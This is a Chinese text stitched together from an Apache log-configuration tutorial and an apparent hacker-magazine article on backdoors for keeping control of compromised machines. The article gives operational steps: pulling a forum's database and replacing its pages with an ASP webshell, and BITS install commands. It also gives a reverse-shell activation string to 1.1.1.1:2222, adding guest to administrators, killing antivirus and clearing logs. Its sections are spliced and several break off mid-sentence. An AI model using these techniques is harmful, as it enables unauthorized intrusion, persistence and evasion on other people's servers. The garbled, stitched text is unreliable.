我们可以在 httpd.conf 文件中设置日志文件记录信息级别的高低，以控制日志文件记录信息的数量和类型。通过 LogLevel 指令设置，该指令默认设置的级别是 error，即记录称得上错误的事件。

大多数情况下，在日志文件中见到的内容分属两类：文档错误和 CGI 错误。但是，错误日志中偶尔也会出现配置错误，另外还有前面提到的服务器启动和关闭信息。

文档错误和服务器返回的 400 系列代码相对应，最常见的就是 404 错误——Document Not Found（文档没找到）。除了 404 错误以外，用户身份验证错误也是一种常见的错误。404 错误在用户请求的资源（即 URL）不存在时出现，它可能是由于用户输入的 URL 错误，或者由于 Apache 服务器上原来存在的文档因故被删除或移动。

当用户不能打开服务器上的文档时，错误日志中出现的记录如下所示：

```text
[Sat Aug 10 9:09:18 2002] [error] [61.181.52.23] File does not exist: /var/www/html/jj
```

可以看到，正如访问日志 access_log 文件一样，错误日志记录也分成多个项。错误记录的开头是日期/时间标记；第二项是当前记录级别，404 属于 error 级别；第三项表示用户发出请求时所用的 IP 地址；最后一项才是真正的错误信息。

由于用户身份验证问题而出现的错误记录如下所示：

```text
[Sat Aug 1 22:13:21 2002] [error] [client 61.181.52.23] user bright@hacker.com.cn: authentication failure for "/cgi-bin/jjirecareers/company.cgi": password mismatch
```

> 由于文档错误是用户请求的直接结果，因此它们在访问日志中也会有相应的记录。

错误日志最主要的用途或许是诊断行为异常的 CGI 程序。为了进一步分析和处理方便，CGI 程序输出到 STDERR（Standard Error，标准错误设备）的所有内容都将直接进入错误日志。这意味着任何编写良好的 CGI 程序，如果出现了问题，错误日志就记录有关问题的详细信息。然而，把 CGI 程序错误输出到错误日志也有它的缺点，错误日志中将出现许多没有标准格式的内容，这使得用错误日志自动分析程序从中分析出有用的信息变得相当困难。

由于 CGI 程序运行环境的特殊性，如果没有错误日志的帮助，大多数 CGI 程序的错误都将很难解决。网页时服务器却返回错误，比如“Internal Server Error”。可以肯定，这些人没有看过服务器的错误日志，或者根本不知道错误日志的存在。绝大多数情况下，错误日志能够精确地指出 CGI 错误的所在以及如何修正这个错误。

看出它创建了一种名为“common”的日志格式，其中包括：远程主机、远程登录名字、远程用户、请求时间、请求的第一行代码、请求状态，以及发送的字节数。有时候用户只想在日志中记录某些特定的、已定义的信息，这时就要用到“...”。如果在“%”和变量之间放入了一个或者多个 HTTP 状态代码，则只有当请求返回的状态代码属于指定状态代码之一时，变量所代表的内容才会被记录。

## 3．定制日志

用户可以使用日志格式指令来控制日志文件的信息。在前面已经提到，在 httpd.conf 中使用 `LogFormat "%a %l"` 指令，可以把发出 HTTP 请求浏览器的 IP 地址和主机名记录到日志文件。出于安全的考虑，你至少应该验证那些失败的 Web 用户，在 httpd.conf 文件中加入 `LogFormat "%401u"` 指令可以实现这个目的。这个指令还有其他的许多参数，用户可以参考 Apache 的文档。另外，Apache 的错误日志文件对于系统管理员来说也是非常重要的，错误日志文件中包括服务器的启动、停止以及 CGI 执行失败等信息。

```text
LogFormat "%h %l %u %t \"%r\" %>s %b" common
```

该指令创建了一种名为 common 的日志格式，日志的格式在双引号包围的内容中指定。格式字符串中的每一个变量代表着一项特定的信息，这些信息按照格式串规定的次序写入到日志文件。下面是格式串的可用变量及含义：

```text
%a 远程IP地址
%A 本地IP地址
%b 已发送的字节数（不包含HTTP头）
%B 已发送字节数（不含HTTP头，若为0则记为0）
%{FOOBAR}e 环境变量FOOBAR
%f 文件名
%h 远程主机
%H 请求的协议
%l 远程登录名（来自identd）
%m 请求方法
%{Foobar}i 请求头字段Foobar
%{Foobar}o 响应头字段Foobar
%p 服务对应请求时使用的端口
%P 处理请求的子进程ID
%q 查询字符串
%r 请求第一行
%s 状态码
%t 时间
%T 处理请求耗时（秒）
%u 远程用户（来自auth）
%U 用户请求的URL路径
%v 服务器ServerName
%V 依据UseCanonicalName得到的服务器名
```

在所有上面列出的变量中，“...”表示一个可选的条件。如果没有指定条件，则变量的值将以“-”取代。分析前面来自默认 httpd.conf 文件的 LogFormat 指令示例，可以……

### 日志分析

尽管日志文件中包含着大量有用的信息，但这些信息只有在经过深入挖掘之后才能够最大限度地发挥作用。现在面临的问题是，虽然日志文件中包含了大量的信息，但这些信息对于管理、规划网站却没有多少直接的帮助。为了管理和规划网站，需要知道：有多少人浏览了网站，他们在看些什么，停留了多长时间，他们从哪里得知这个网站，等等。所有这些信息就隐藏于（或者可能隐藏于）日志文件之中。

远程主机的地址：“远程主机的地址”和“谁在浏览网站”差不多，但并不等同。具体地说，远程主机的地址告诉我们浏览者来自何方，比如它可能是 bright.hacker.com.cn 或者 suying.pcfriend.com.cn。

浏览时间：浏览者何时开始访问网站？从这个问题的答案中能够了解不少情况。如果网站的大多数浏览者都在早上 9:00 和下午 4:00 之间访问网站，那么可以相信网站的浏览者大多数总在工作时间进行访问；如果访问记录大多出现在下午 7:00 到午夜之间，可以肯定浏览者一般在家里上网。当然，从单个访问记录能够得到的信息非常有限，但如果从数千个访问记录出发，就可以得到非常有用和重要的统计信息。

用户所访问的资源：网站的哪些部分最受用户欢迎？这些最受欢迎的部分就是应该继续加以发展的部分。网站的哪些部分总是受到冷落？网站中这些受到冷落的部分或许隐藏得太深，或许它们确实没有什么意义，此时就得想办法加以改进。当然，网站还有的内容，比如法律上的声明，虽然很少有人访问，但却不应该随便地改动它们。

无效链接：当然，日志文件还能显示哪些东西不能按照用户所想像的运行。网站中是否存在错误的链接？其他网站链接过来时有没有搞错 URL？是否存在不能正常运行的 CGI 程序？是否有搜索引擎检索程序每秒发出数千个请求，从而影响了本网站的正常服务？这些问题的答案都可以从日志文件找到线索。

### 总结

总而言之，Apache 是一个非常优秀的 Web 服务器，虽……

**刘流：** 大家还记得小时候看的孙悟空和如来佛斗法的故事吧？再聪明的猴头，最后也只能在如来的手掌里扑腾，法力没人家高就是没办法。放到现实生活中，网络管理员和普通的入侵者就是这样攻防对立的关系，谁的“法力”高，谁就是天下的主宰！这也是无数网络安全爱好者喜欢研究安全技术的原因——在攻与防的对立统一中突出自己的价值！下面就给广大安全爱好者带来控制肉鸡的法宝，让肉鸡乖乖地被你控制着，永远不能逃出你的五指山！

## 让肉鸡逃避五指山

### —— 精品后门程序及思路分析

文/图 王君



### 什么是后门程序

后门程序又称特洛伊木马，其用途在于潜伏在电脑中，从事搜集信息或便于黑客进入的动作。后门程序和电脑病毒最大的差别，在于后门程序不一定有自我复制的动作，也就是后门程序不一定会“感染”其他电脑。

后门是一种登录系统的方法，它不仅绕过系统已有的安全设置，而且还能挫败系统上各种增强的安全设置。

后门包括从简单到奇特，有很多的类型。简单的后门可能只是建立一个新的账号，或者接管一个很少使用的账号。复杂的后门（包括木马）可能会绕过系统的安全认证而对系统有完全的存取权。例如一个 login 程序，当你输入特定的密码时，你就能以管理员的权限来存取系统。

后门能相互关联，而且这个技术被许多黑客所使用。例如，黑客可能使用密码破解一个或多个账号的密码，黑客可能会建立一个或多个账号。一旦黑客可以存取这个系统，黑客可能使用一些技术或利用系统的某个漏洞来提升权限。黑客可能会对系统的配置文件进行小部分的修改，以降低系统的防卫性能，也可能会安装一个木马程序，使系统打开一个安全漏洞，以利于黑客完全掌握系统。

以上是在网络上常见的对“后门”的解释，其实我们可以用很简单的一句话来概括它：后门就是留在计算机系统中，供某位特殊使用者通过某种特殊方式控制计算机系统的途径！很显然，掌握好后门技术是每个网络安全爱好者不可或缺的一项基本技能！它能让你牢牢抓住肉鸡，让它永远飞不出你的五指山！

下文将以笔者从事网络安全多年的工作经验为基础，给广大的网络初级安全爱好者讲解一些网络上常用的后门的种类和使用方法以及技巧，希望大家能在最短的时间内学习到最好的技术，提升自己的网络安全技术水平！

### 后门的分类

后门可以按照很多方式来分类，标准不同自然分类就不同，为了便于大家理解，我们从技术方面来考虑后门程序的分类方法。

### 1．网页后门

此类后门程序一般都是使用服务器上正常的 Web 服务来构造自己的连接方式，比如现在非常流行的 asp、cgi 脚本后门等。

虽然 Apache 的开发者非常注重其安全性，但是由于 Apache 非常庞大，难免会存在安全隐患。Apache 的安装维护中需要注意以下问题：

- 检查文件和目录的权限是否恰当。
- httpd.conf、srm.conf 和 access.conf 的设置是否适当。
- 使服务器日志文件能够记录尽可能详细的信息。
- 对某些需要特别保护的目录使用密码保护（.htaccess）。
- 对 CGI 脚本或者程序进行封装。
- 如果 CGI 使用 Perl 编写，要详细检查其安全性。
- 检查 SSI 指令。
- 使用 TCP Wrappers 和 Tripwire。

Web 服务是 Internet 服务器最基本的服务，Linux 发行版中包含的 Apache 软件是性能优良的 Web 服务器，也是 Internet 上最流行的 Web 服务器。由于它时刻都经历着无数使用者的测试，所以现行的 Apache 的默认选项已经十分适合普通用户，用户只需要更改其中几个与当前应用环境紧密相关的选项就可以达到目的了。希望大家在近几轮的实验室中玩得愉快！多多拿奖：）！

## 2．线程插入后门

利用系统自身的某个服务或者线程，将后门程序插入到其中，具体原理原来《黑客防线》曾具体讲解过，感兴趣的朋友可以查阅。这也是现在最流行的一个后门技术。

## 3．扩展后门

所谓的“扩展”，是指在功能上有大的提升。比普通的单一功能的后门有很强的使用性，这种后门本身就相当于一个小的安全工具包，能实现非常多的常见安全功能，适合新手使用——但是，功能越强，个人觉得反而脱离了后门“隐蔽”的初衷，具体看法就看各位使用者的喜好了。

## 4．C/S 后门

和传统的木马程序类似的控制方法，采用“客户端/服务端”的控制方式，通过某种特定的访问方式来启动后门进而控制服务器。

## 5．Root Kit

这个需要单独说明，其实把它单独列一个类在这里是不太恰当的，但是 root kit 的出现大大改变了后门程序的思维角度和使用理念。可以说一个好的 root kit 就是一个完全的系统杀手！后文我们讲涉及到这方面，相信一定不会让大家失望！

上面是按照技术做的分类，除了这些方面，正向连接后门、反向连接后门等分类也是很常见的，其实如何分类是编程者考虑的事，广大的使用者就不用考虑那么多了，我们看重的，只是功能！

### 入侵法宝——精品后门

上面的“废话”相信大家都看累了吧？好，下面我们来看看现在网络中流行的后门究竟长什么模样！想学习网络安全并想提高的朋友看清楚了哦，这可是让那些肉鸡逃不过你五指山的大好途径！

## 1．网页后门

近段时间网络上针对系统漏洞的攻击事件渐渐少了，因为大家在认识到网络安全的重要性之后，最简单却又最有效的防护办法：升级，都被大家所认同，所以系统漏洞在以后的岁月中存活的周期会越来越短，而从最近的趋势来看，脚本漏洞已经渐渐取代了系统漏洞的地位。非常多的人开始研究起脚本漏洞来，SQL 注入也开始成为各大安全站点的首要关注热点，而说到脚本，网页后门当然就是不得不说的重头戏了。现在国内入侵的主流趋势是先利用某种脚本漏洞上传脚本后门，然后浏览服务器内安装的程序，找到提升权限的突破口，进而拿到服务器的系统权限。

现在 asp、cgi、php 这 3 个脚本大类在网络上的普遍运用带来了脚本后门在这 3 方面的发展，下面我们一道来。

## 海阳顶端 asp 木马

这是 asp 脚本方面流传非常广的一个脚本后门了，在经过几次大的改革后，推出了“海阳顶端 asp 木马 xp 版”、“海阳顶端 asp 木马红粉佳人版”等功能强大、使用方便的后门，相信经常接触脚本安全的朋友对这些都不会陌生。

| 项目 | 说明 |
|---|---|
| 类型 | 网页木马 |
| 使用范围 | 支持 asp，Web 访问 |
| 隐蔽程度 | ★★★★★ |
| 使用难度 | ★★★☆☆ |
| 危害程度 | ★★★★☆ |
| 查杀难度 | ★★★★☆ |

现在的服务器系统配置都相对安全，公开的系统漏洞存在的机会很少，于是脚本方面的漏洞就开始火起来。首先我们通过某种途径获得一个服务器的页面权限（比如利用论坛上传类型未严格设置、SQL 注入后获得 asp 系统的上传权限，对已知物理路径的服务器上传特定程序），然后我们可以通过简单的上传 asp 程序或者是直接复制海阳顶端的代码，然后通过 Web 访问这个程序，就能很方便地查阅服务器上的资料了，下面举个简单的例子（由于只是简单地介绍，下文例子不会太难或者太普通，希望大家理解）。

##### 运用举例

leadbbs2.77 曾经风靡网络，它是个很典型的 asp 论坛，屏蔽了很多可以 SQL 注入的地方，但是很多傻瓜级别的网络管理员总是喜欢默认安装，然后启用论坛，我们只需要很简单地在 IE 中输入 `www.***.com/bbs/data/leadbbs.mdb`，就能够直接下载该论坛的数据库了，而且没有 md5 加密哦！我们直接找到管理员的账户和密码，然后登录论坛，到管理界面后将论坛的“联系我们”“帮助”等 asp 文件替换成我们的海阳顶端代码（图 1），然后退出直接访问“联系我们”的页面地址 `www.***.com/bbs/User/inc/Contact_info.asp`，就可以看到我们的木马页面了（图 2）。





现在我们可以罗列出该服务器上所有的文件，执行 guest 权限的 cmd 命令，方便地上传/下载特定程序，远程执行程序等，这样一个隐蔽的后门就建好了！取得服务器的 system 权限就看大家自己的办法了。

一般来说，海阳的功能是非常强大的，而且不容易被查杀（一个朋友采取的方式是：先利用某个脚本漏洞上传网页后门，再通过海阳上传另一个后门到隐藏的路径，然后通过最后上传的后门来删除第一次上传的海阳，这样后门的存放路径就可以放得非常深了，普通管理员是很难发现的），如果管理员觉得自己可能中了这样的后门，可以利用论坛备份来恢复自己的页面系统，再配合系统日志、论坛日志等程序检查系统，发现可疑 asp 文件打开看看，海阳是很好识别的，再删除就可以了。

脚本方面的后门还有 cgi 和 php 两大类，使用原理都差不多，这里就不再多介绍，在黑防论坛中也收录了这 3 种后门，大家可以下载后自己研究。

## 2．线程插入后门

首先我们来简单解释一下什么是典型的“线程插入”后门：这种后门在运行时没有进程，所有网络操作均插入到其他应用程序的进程中完成。也就是说，即使受控端安装的防火墙拥有“应用程序访问权限”的功能，也不能对这样的后门进行有效的警告和拦截，也就使对方的防火墙形同虚设了！这种后门是现在非常主流的一种，很让防护的人头疼，因为对它的查杀比较困难，这种后门本身的功能也比较强大，是“居家旅行、入侵攻击”的必备品哦！

这类的典范就是国内提倡网络共享的小榕的 BITS 了，从它的推出以来，各类安全工具下载园地里 BITS 就高居榜首，非常多的朋友在使用它的过程中感到了方便。

| 项目 | 内容 |
|---|---|
| 类型 | 系统后门 |
| 使用范围 | Windows 2000/XP/2003 |
| 隐蔽程度 | ★★★★☆ |
| 使用难度 | ★★★☆☆ |
| 危害程度 | ★★★★☆ |
| 查杀难度 | ★★★★☆ |

BITS 其实是 Background Intelligent Transfer Service 的缩写，可以在不知不觉中实现另一种意义的 Background Intelligent Transfer Service，它是典型的线程插入后门，有以下特点：进程管理器中看不到，平时没有端口，只是在系统中充当卧底的角色；提供正向连接和反向连接两种功能；仅适用于 Windows 2000/XP/2003。

##### 运用举例

首先我们用 3389 登录上肉鸡，确定你有 system 的权限，将 bits.dll 拷贝到服务器上，执行 cmd 命令。

```text
rundll32.exe BITS.dll,Install <hkfx>
```

这样就激活了 bits，程序用 `<hkfx>` 这个特征的字符来辨认使用者，也就相当于你的密码了，然后卸载：

```text
rundll32.exe BITS.dll,Uninstall
```

这是最简单的使用，这个后门除了隐藏性好外，还有两大特点是非常值得借鉴的：端口复用和正/反向连接。虽然很多朋友经常听到这两个名词，但并不了解它们。

端口复用就是利用系统正常的 TCP 端口通讯和控制，比如 80、139 等，这样的后门有个非常大的好处就是非常隐蔽，不用自己开端口也不会暴露自己的访问，因为通讯本身就是系统的正常访问！另一个是反向连接，这个很常见，也是后门中的一个经典思路，因为从服务器上主动访问外边是不被禁止的，很多很厉害的防火墙就怕这点！

BITS 的正向连接很简单，大家可以参考它的 readme，这种方式在服务器没有防火墙等措施的时候很管用，可以方便地连接；但是遇到有防火墙这样的方式就不灵了，得使用下面的反向连接方式。

```text
在本地使用NC监听（如 nc -l -p 1234）
用nc连接目标主机的任何一个防火墙允许的TCP端口（80/139/445/....）
输入激活命令：hkfx@dancewithdolphin[rxell]:1.1.1.1:2222
目标主机的CMD将会出现在NC监听的端口2222，这样就实现了绕过防火墙的功能了。
```

> Devil5[魔鬼5号]

| 项目 | 内容 |
|---|---|
| 类型 | 系统后门 |
| 使用范围 | Windows 2000/XP/2003 |
| 隐蔽程度 | ★★★★★ |
| 使用难度 | ★★★☆☆ |
| 危害程度 | ★★★★★ |
| 查杀难度 | ★★★★☆ |

同 BITS 一样，Devil5 也是线程插入式的后门，和 BITS 不同的是它可以很方便地在 GUI 界面下按照自己的使用习惯定制端口和需要插入的线程，适合对系统有一定了解的使用者使用。由于是自定义插入线程，所以它更难被查杀，下面我们来看看它的使用。

##### 运用举例

首先使用它自带的配置程序 EditDevil5.exe 对后门进行常规的配置，包括控制端口、插入线程、连接密码、时间间隔等方面，关键是对插入线程的定制，一般设置成系统自带的 svchost，然后运行后门就可以控制了[图3]。



图3

我们用 telnet 连接上去，连接的格式是 telnet *** 定制的端口，它和其他后门不同之处在于连接后没有提示的界面，每次执行程序也是分开的，必须要每次都输入密码，比如我们丢掉了服务器的管理账户，可以激活 guest 后再将 guest 加到管理员权限，记得每次执行命令后加上“>”。密码”就可以了：`net localgroup administrators guest /add >hkfx`，然后你又可以控制服务器了。

很明显，同榕哥的BITS相比，Devil5有一些缺陷，不能通过系统自带端口通信，执行命令比较麻烦，需要每次输入密码而且不回显输入的内容，很容易出错。但是，它有自己的优势，插入线程可以自己定制，比如设置IE的线程为插入的目标就比较难被查杀；自己提供了专门的查杀工具DelDevil5.exe，帮助防护者清理系统；而且它可以任意改名和绑定，使用灵活性上比BITS强……大家选择哪款就看自己的喜好了。

另外，PortLess BackDoor等工具也是此类的后门，功能强大，隐蔽性稍差，大家有兴趣可以自己研究一下。

## 图3：扩展后门

所谓的扩展后门，在普通意义上理解，可以看成是将非常多的功能集成到了后门里，让后门本身就可以实现很多的功能，方便直接控制肉鸡或者服务器。这类的后门非常受初学者的喜爱，通常集成了文件上传/下载、系统用户检测、HTTP访问、终端安装、端口开放、启动/停止服务等功能，本身就是个小的工具包，功能强大。

### Wineggdrop shell

| 项目 | 内容 |
|---|---|
| 类型 | 系统后门 |
| 使用范围 | Windows 2000/XP/2003 |
| 隐蔽程度 | ★★★★☆ |
| 使用难度 | ★★☆☆☆ |
| 危害程度 | ★★★★☆ |
| 查杀难度 | ★★★★☆ |

这个后门是扩展后门中很有代表性的一个，功能之全面让人叹为观止。它能实现如下比较有特色的功能：进程管理（可查看、杀进程；支持用进程名或PID来杀进程）；注册表管理（查看、删除、增加等功能）；服务管理（停止、启动、枚举、配置、删除服务等功能）；端口到程序关联功能（fport）；系统重启、关电源、注销等功能（reboot,poweroff,shutdown,logoff）；嗅探密码功能；安装终端；修改终端端口功能；端口重定向功能（多线程，并且可限制连接者IP）；HTTP服务功能（多线程，并且可限制连接者IP）；Sock5代理功能（支持两种不同方式验证，可限制连接者IP）；克隆账号、检测克隆账户功能（clone,checkclone）；加强了的Findpassword功能（可以得到所有登录用户，包括使用克隆账户远程登录用户密码）；HTTP代理（完全匿名，支持oicq、msn、mirc等程序）；其他辅助功能：HTTP下载、删除日志、系统信息、恢复常用关联、枚举系统账户等。

当网络上刚推出这个后门的时候，非常多的人用它来替换自己原来使用的后门，一时间各处赞扬之声迭起，但多为一些普通新手的心声。其实它和“后门”的原始定义是有出入的——一旦你需要实现越多的功能，那你的程序在执行、隐藏、稳定等方面就需要考虑非常多的问题，一个疏忽就会导致全盘皆败，所以不建议将此后门用在需要非常隐蔽的地方。

##### 运用举例

在安装后门前，需要使用它自带的EditServer.exe程序对服务端进行非常详细的配置，从10个具体配置中，包括了插入线程、密码、IP登录邮件通告等方面，不难看出它的功能是非常强大的，隐蔽性也很强，下面说几个在入侵中常用的功能，相信经常玩入侵的朋友一定能发现它的强大之处。

- **Fport**：列出进程到端口的列表，用于发现系统中运行程序所对应的端口，可以用来检测常见的隐藏后门。
- **Reboot**：重启系统，如果你上传并运行了其他后门程序，并需要重启机器以便让后门正常工作，那使用这个命令吧！
- **Shell**：得到一个DOS Shell，这个不多讲了，直接得到服务器或者肉鸡上的cmd shell。
- **Pskill**：PID或程序名，用于杀掉特定的服务，比如杀毒软件或者防火墙。
- **Execute**：程序，在后台中执行程序，比如sniffer等。
- **http://ip/文件名**：保存文件名，下载程序，直接从网上down一个后门到服务器上。
- **Installterm**：端口；在没有安装终端服务的win2k系统版中安装终端服务，重启系统后才生效，并可以自定义连接端口，比如不用3389而用其他端口。
- **StopService/StartService**：停止或者启动某个系统服务，比如telnet。
- **CleanEvent**：删除系统日志。
- **Redirect TCP**：数据转发，这个功能是后门程序中非常出色的一个功能，可以通过某一端口的数据转发来控制肉网的机器，在渗透入侵的时候非常管用！
- **EnumService**：列举所有自动启动的服务的资料，比如后门、木马。
- **RegEdit**：进入注册表操作模式，熟悉注册表的使用者终于在后门中找到了福音！
- **Findpassword**：得到所有登录用户的密码，比我们常用的findpass功能可强多了。
- ……

总体来讲，Wineggdrop shell是后门程序中很出彩的一个，它经过作者几次大规模的修改和升级，已经趋于稳定，功能的强大当然没得说；但是由于功能太强大，被查杀和怀疑是难以避免的，所以很多人在使用Wineggdrop shell一段时间后就发现肉鸡飞了，是很正常的事。其实用很简单的方法就可以很好地提高它的隐蔽性，下文将有说明。

相对于Wineggdrop shell来说，独孤剑客的winshell在功能上就不那么全面了，但是笔者推荐新手更多地使用winshell而不是Wineggdrop shell，因为winshell功能除了获得一个shell以外，只加入了一些重启、关闭服务器的命令，功能相对简单，但完全使用系统自带的cmd来执行命令，对系统的学习和掌握也是非常有帮助的！

Winshell和wolf这两者都是国内早期顶尖的后门程序，程序的编制无疑是非常经典的，新手学习时使用这两款后门一定能让你明白很多系统相关的东西……入侵思路和方法。

## 4. C/S后门

传统的木马程序常常使用C/S架构，这样的架构很方便控制，也在一定程度上避免了“万能密码”的情况出现，对后门私有化有一定贡献。这方面分类比较模糊，很多后门可以归结到此类中，比如ACKCMD、NTROOTKIT等，其中在思路方面比较巧妙的就是ICMP Door了。

##### ICMP Door

| 字段 | 内容 |
|---|---|
| 类型 | 系统后门 |
| 使用范围 | Windows 2000/XP/2003 |
| 隐蔽程度 | ★★★★★ |
| 使用难度 | ★★★★ |
| 危害程度 | ★★★★★ |
| 查杀难度 | ★★★★★ |

这个后门利用ICMP通道进行通信，所以不开任何端口，只是利用系统本身的ICMP包进行控制。安装成系统服务后，开机自动运行，可以穿透很多防火墙。其控制方式特殊，甚至80端口都不用开放。运用举例中提到其适合突破网关后对内网计算机进行控制，并给出了安装、下载、进程控制与命令执行等方式说明。

## 5. root kit

如果说上面的后门程序都各有千秋、各有所长的话，它们和经典的root kit一比简直就是小巫见大巫了，那究竟什么是root kit呢？

Root kit出现于20世纪90年代初，在1994年2月的一篇安全咨询报告中首次使用了root kit这个名词。它并不是用于“获取”root权限，而是攻击者在已获得权限后，用于隐藏踪迹、维持权限、检查登录、清理日志、嗅探账号密码并进一步横向入侵的工具集合。

从*nix迁移到Windows后，root kit具备隐藏文件、进程、服务、驱动、注册表项、端口及磁盘空间等能力，并可在内存中伪装修改。文中提及其可植入redirector等机制，查杀难度很高。

##### Hacker Defender

| 字段 | 内容 |
|---|---|
| 类型 | 系统后门 |
| 使用范围 | Windows 2000/XP/2003 |
| 隐蔽程度 | ★★★★★ |
| 使用难度 | ★★★★ |
| 危害程度 | ★★★★★ |
